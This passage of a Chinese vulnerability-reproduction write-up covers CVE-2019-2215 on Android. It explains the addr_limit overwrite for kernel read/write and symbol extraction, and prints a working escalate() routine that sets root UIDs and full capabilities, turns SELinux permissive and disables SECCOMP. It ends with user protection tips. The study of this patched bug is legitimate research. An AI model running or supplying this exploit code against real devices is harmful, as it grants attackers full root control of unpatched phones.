- 调用`recvmsg`，读取之前写入socket的1字节，此时为第一次读取（recvmsg#1）

> `recvmsg`和`writev`都可以将用户空间的数据复制到内核空间，所以调用`recvmsg`时`binder_thread`的内存被占位

- socket中没有更多数据可读取，此时父进程阻塞，转到子进程

- 子进程调用`EPOLL_CTL_DEL`触发uaf，与之前的情况一样，`iovec_array[10].iov_len`和`iovec_array[11].iov_base`被改写为`wait.task_list`地址

- 子进程调用write向socket写入`second_write_chunk`，此时socket中存在数据，父进程解除阻塞状态，子进程结束，转到父进程

- 父进程根据`iovec_array[11].iov_len`读取0x28大小的数据到`iovec_array[11].iov_base`中，此时为第二次读取（recvmsg#2）

- 由于`second_write_chunk`大小为0x30，所以`recvmsg`还要再读取8字节数据，也就是`second_write_chunk`最后8字节0xfffffffffffffffe，而此时`iovec_array[12].iov_base`已经在recvmsg#2操作中被覆盖为`current_ptr + 0x8`也就是`task_struct + 0x8`，这个地址即`addr_limit`的地址，所以在recvmsg#3读取后，`addr_limit`被覆盖为`0xfffffffffffffffe`，得到了任意地址读写的权限，函数结束

```c
// elixir.bootlin.com/linux/v5.5.19/source/include/linux/sched.h#L635
// 链接中的linux版本高于测试机版本4.4.169是由于此网站的结构体定义普遍偏旧，在4.4版本中找不到相应的结构体定义，该版本的结构体定义符合测试机版本
struct task_struct {
    #ifdef CONFIG_THREAD_INFO_IN_TASK
    /*
       * For reasons of header soup (see current_thread_info()), this
       * must be the first element of task_struct.
       */
    struct thread_info thread_info;
    #endif
    volatile long state;  /* -1 unrunnable, 0 runnable, >0 stopped */
    void *stack;
    atomic_t usage;
    unsigned int flags;   /* per process flags, defined below */
    unsigned int ptrace;
    ......
}
//elixir.bootlin.com/linux/v5.5.19/source/arch/arm64/include/asm/thread_info.h#L26
struct thread_info {
    unsigned long     flags;      /* low level flags */
    mm_segment_t      addr_limit; /* address limit */
    #ifndef CONFIG_THREAD_INFO_IN_TASK
    struct task_struct    *task;      /* main task structure */
    #endif
    #ifdef CONFIG_ARM64_SW_TTBR0_PAN
    u64           ttbr0;      /* saved TTBR0_EL1 */
    #endif
    int           preempt_count;  /* 0 => preemptable, <0 => bug */
    #ifndef CONFIG_THREAD_INFO_IN_TASK
    int           cpu;        /* cpu */
    #endif
};
```
</b>

##### 5.1.3 修改系统属性
修改内核内存中的数据首先要得到**内核基址**和**内核符号**信息，后者用来计算偏移。获取内核符号信息可以通过下载googlesource中的官方镜像然后用工具提取，也可以用已root的同型号同内核版本手机dump出内核信息来获取。以下采用的是通过官方镜像提取的办法。
- 内核符号信息
   根据[poc3.c wp](https://hernan.de/blog/tailoring-cve-2019-2215-to-achieve-root/)提供的方法，获取符号信息过程如下：
    1. google测试机内核版本，搜索结果中找到[wahoo-kernel repo](https://android.googlesource.com/device/google/wahoo-kernel/+/fcd2db0f91051deca2cccdaaa937954b39ca5cda)，下载文件`Image.lz4-dtb`
    2. 解压下载的文件
    ```shell
    $ lz4 -d Image.lz4-dtb Image
    Stream followed by unrecognized data
    Successfully decoded 37500928 bytes
    $ strings Image | grep "Linux version"
    Linux version 4.4.169-gee9976dde895 (android-build@abfarm325) (Android clang version 5.0.300080 (based on LLVM 5.0.300080))
    ```
    3. 使用[droidimg](https://github.com/nforest/droidimg)导出符号表，可能会遇到下面的报错：在寻找`kallsyms table`时出错
    ```bash
    $ ./vmlinux.py Image
    Linux version 4.4.169-gee9976dde895 (android-build@abfarm325) (Android clang version 5.0.300080 (based on LLVM 5.0.300080)) #1 SMP PREEMPT Wed Mar 6 01:42:27 UTC 2019
    [+]kallsyms_arch = arm64
    [!]could be offset table...
    [!]lookup_address_table error...
    [!]get kallsyms error.
    ```
    4. 用droidimg中的工具修复Image
    ```bash
    $ gcc -o fix_kaslr_arm64 fix_kaslr_arm64.c
    fix_kaslr_arm64.c:269:5: warning: always_inline function might not be inlinable [-Wattributes]
    int main(int argc, char **argv)
     ^~~~
    $ ./fix_kaslr_arm64 Image Image_kaslr
    Origiellnal kernel: Image, output file: Image_kaslr
    kern_buf @ 0x7f7eb403c000, mmap_size = 37502976
    rela_start = 0xffffff8009916430
    p->info = 0x0sh
    rela_end = 0xffffff800a1b0340
    375847 entries processed
    ```

    5. 导出符号表
    ```bash
    $ ./vmlinux.py Image_kaslr > syms.txt
    Linux version 4.4.169-gee9976dde895 (android-build@abfarm325) (Android clang version 5.0.300080 (based on LLVM 5.0.300080)) #1 SMP PREEMPT Wed Mar 6 01:42:27 UTC 2019
    [+]kallsyms_arch = arm64
    [+]numsyms: 131300
    [+]kallsyms_address_table = 0x11eb300
    [+]kallsyms_num = 131300 (131300)
    [+]kallsyms_name_table = 0x12ebc00
    [+]kallsyms_type_table = 0x0
    [+]kallsyms_marker_table = 0x14a4a00
    [+]kallsyms_token_table = 0x14a5b00
    [+]kallsyms_token_index_table = 0x14a5f00
    [+]kallsyms_start_address = 0xffffff8008080000L
    [+]found 9917 symbols in ksymta
    ```
    6. 根据导出符号表的地址和基址`(kallsyms_start_address = 0xffffff8008080000L)`计算偏移
- 内核基址
    - 有了符号表偏移后要计算基址只需泄露出某个符号的地址再减去符号表中该符号的偏移即可

    - 找task_struct->mm->user_ns地址，减去init_user_ns偏移
- 修改属性
  - 直接用基址+偏移的方式找到系统属性的地址再修改即可


#### 5.2 漏洞利用——提权
- `escalate`函数利用之前获得的内核读写权限进行提权。为了得到`full root`即完整root权限，需要绕过linux中多个安全机制（这里仅提出所绕过安全机制的类型，并不对机制做详细解释），不过有了内核读写权限后绕过也不是特别麻烦。权部分代码（其中`DEBUG_RW`用于打印额外信息帮助理解）：
```c
void escalate()
{
  ......

  uid_t uid = getuid();
  unsigned long my_cred = kernel_read_ulong(current_ptr + OFFSET__task_struct__cred);
  // offset 0x78 is pointer to void * security
  unsigned long current_cred_security = kernel_read_ulong(my_cred+0x78);

  printf("current->cred == 0x%lx\n", my_cred);

  printf("Starting as uid %u\n", uid);
  printf("Escalating...\n");

  // change IDs to root (there are eight)
  for (int i = 0; i < 8; i++)
    kernel_write_uint(my_cred+4 + i*4, 0);

  if (getuid() != 0) {
    printf("Something went wrong changing our UID to root!\n");
    exit(1);
  }

  printf("UIDs changed to root!\n");

  // reset securebits
  kernel_write_uint(my_cred+0x24, 0);

  // change capabilities to everything (perm, effective, bounding)
  for (int i = 0; i < 3; i++)
    kernel_write_ulong(my_cred+0x30 + i*8, 0x3fffffffffUL);

  printf("Capabilities set to ALL\n");

  // Grant: was checking for this earlier, but it's not set, so I moved on
  // printf("PR_GET_NO_NEW_PRIVS %d\n", prctl(PR_GET_NO_NEW_PRIVS, 0, 0, 0, 0));

  unsigned int enforcing = kernel_read_uint(kernel_base + SYMBOL__selinux_enforcing);

  printf("SELinux status = %u\n", enforcing);

  if (enforcing) {
    printf("Setting SELinux to permissive\n");
    kernel_write_uint(kernel_base + SYMBOL__selinux_enforcing, 0);
  } else {
    printf("SELinux is already in permissive mode\n");
  }

  // Grant: We want to be as powerful as init, which includes mounting in the global namespace
  printf("Re-joining the init mount namespace...\n");
  int fd = open("/proc/1/ns/mnt", O_RDONLY);

  if (fd < 0) {
    perror("open");
    exit(1);
  }

  if (setns(fd, CLONE_NEWNS) < 0) {
    perror("setns");
    exit(1);
  }

  printf("Re-joining the init net namespace...\n");

  fd = open("/proc/1/ns/net", O_RDONLY);

  if (fd < 0) {
    perror("open");
    exit(1);
  }

  if (setns(fd, CLONE_NEWNET) < 0) {
    perror("setns");
    exit(1);
  }

  // Grant: SECCOMP isn't enabled when running the poc from ADB, only from app contexts
  if (prctl(PR_GET_SECCOMP) != 0) {
    printf("Disabling SECCOMP\n");

    // Grant: we need to clear TIF_SECCOMP from task first, otherwise, kernel WARN
    // clear the TIF_SECCOMP flag and everything else :P (feel free to modify this to just clear the single flag)
    // arch/arm64/include/asm/thread_info.h:#define TIF_SECCOMP 11
    kernel_write_ulong(current_ptr + OFFSET__task_struct__thread_info__flags, 0);
    kernel_write_ulong(current_ptr + OFFSET__task_struct__cred + 0xa8, 0);
    kernel_write_ulong(current_ptr + OFFSET__task_struct__cred + 0xa0, 0);

    if (prctl(PR_GET_SECCOMP) != 0) {
      printf("Failed to disable SECCOMP!\n");
      exit(1);
    } else {
      printf("SECCOMP disabled!\n");
    }
  } else {
    printf("SECCOMP is already disabled!\n");
  }

  // Grant: At this point, we are free from our jail (if all went well)
}
```
##### 5.2.1 DAC
> Discretionary Access Control——自由访问控制
- 获取内核读写权限的过程中我们得到了task_struct的指针，而task_struct是linux内核中被称为进程描述符的结构体，它包含了一个进程中的各种信息，其中的成员变量cred是和该进程权限有关的结构体，定义如下：
```c
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
    kuid_t      suid;       /* saved UID of the task */
    kgid_t      sgid;       /* saved GID of the task */
    kuid_t      euid;       /* effective UID of the task */
    kgid_t      egid;       /* effective GID of the task */
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
    unsigned    securebits; /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;  /* caps we're permitted */
    kernel_cap_t    cap_effective;  /* caps we can actually use */
    kernel_cap_t    cap_bset;   /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char   jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key  *process_keyring; /* keyring private to this process */
    struct key  *thread_keyring; /* keyring private to this thread */
    struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
} __randomize_layout;
```
- `escalate`中首先通过基址加偏移得到`cred`地址，然后将该结构体中的`uid`到`fsgid`修改为0，提权为root。虽然此时已经成为root，但是由于其他linux安全机制的存在，现在的root并没有获得完全的系统控制权，因此后面还修改了其他值。
##### 5.2.2 CAP
> Linux Capabilities——Linux能力
- CAP对应在cred中kernel_cap_t类型的成员变量

##### 5.2.3 MAC
> Mandatory Access Control——强制访问控制
- MAC在此处指SELinux
- 修改内核直接将`SELinux`的模式设置为`permissive`
- 根据符号`selinux_enforcing`偏移获取地址，将该地址值写为0即可将`SELinux`状态改为`permissive`

##### 5.2.4 SECCOMP
> securecomputing mode——限制进程对系统调用的访问
- SECCOMP对在adb用运行的poc无影响，但是会阻止捆绑在app上poc的系统调用
- 在`task_struct`结构中找到：
  ```bash
  struct seccomp {
    int mode;
    struct seccomp_filter *filter;
    };
  ```
- 其中`mode`有两种模式：`SECCOMP_MODE_STRICT`和`SECCOMP_MODE_FILTER`，通常工作在filter模式下，当mode设置为0时，seccomp为禁用状态。

- 但是如果只将mode写为0不会禁用SECCOMP，原因是当SECCOMP运行时，在`task_struct->thread_info.flags`会被设置为`TIF_SECCOMP`，由于flag没有修改，内核认为SECCOMP处于开启状态，所以内核依旧会调用`__secure_computing`，进入该函数时会由于mode为0跳转到`BUG()`，原本的系统调用仍然不会执行。
```bash
int __secure_computing(const struct seccomp_data *sd)
{
    int mode = current->seccomp.mode;
......
    switch (mode) {
    case SECCOMP_MODE_STRICT:
        __secure_computing_strict(this_syscall);  /* may call do_exit */
        return 0;
    case SECCOMP_MODE_FILTER:
        return __seccomp_filter(this_syscall, sd, false);
    default:
        BUG();
    }
}
```
- 因此mode和flags都需要覆盖。
----------------
至此,获得了完整的root权限。

### 6-针对普通用户的漏洞防护技能

> Android 发言人说，在攻击者可以利用此漏洞之前，需要满足某些比较苛刻的条件，需要安装恶意程序，才能利用该漏洞。他表示：“在Android上，如果需要安装程序需要终端用户同意。任何其他媒介，例如通过网络浏览器，都需要附加漏洞利用程序。"

> 该问题已经用CVE-2019-2215来跟踪。该补丁已在`AndroidCommon Kernel`上提供。
- 普通用户如何避免遭受移动端上的攻击：
1. 及时更新系统，在正规的应用商店下载应用。国内的用户可以在手机自带的应用商店下载，国外用户可以在Google Play下载。不要安装不可信来源的应用、不要随便点击不明URL或者扫描安全性未知的二维码。

2. 移动设备及时在可信网络环境下进行安全更新，不要轻易使用不可信的网络环境。

3. 对请求应用安装权限、激活设备管理器等权限的应用要特别谨慎，一般来说普通应用不会请求这些权限，特别是设备管理器，正常的应用机会没有这个需求。

4. 确保安装有手机安全软件，进行实时保护个人财产安全；

### 7-总结
第一次尝试复现Android内核的漏洞。漏洞的原理和利用原理并不难理解，重点还是环境配置上花费了很多时间。有了这一此部署环境的经验后，以后在调试Android内核方面的漏洞就可以把侧重点花在漏洞本身上了。

## 参考资料
- [安卓app逆向破解脱壳教程](https://blog.csdn.net/sinat_28371057/article/details/112798238)
- [FRIDA](https://frida.re/)
- [UNcrackable-Level1绕过root检测](https://blog.csdn.net/qq_34341458/article/details/124190030)
- [CVE-2019-2215复现过程记录](https://bbs.pediy.com/thread-264932.htm#msg_header_h1_4)
- [Exploitation · Android Kernel Exploitation (cloudfuzz.github.io)](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html)
- [Bad Binder: Android In-The-Wild Exploit](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html)
- [analyzing-androids-cve-2019-2215-dev-binder-uaf](https://dayzerosec.com/posts/analyzing-androids-cve-2019-2215-dev-binder-uaf/)
- [poc.c](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942)
- [poc2.c](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942)
- [poc3.c](https://hernan.de/blog/tailoring-cve-2019-2215-to-achieve-root/)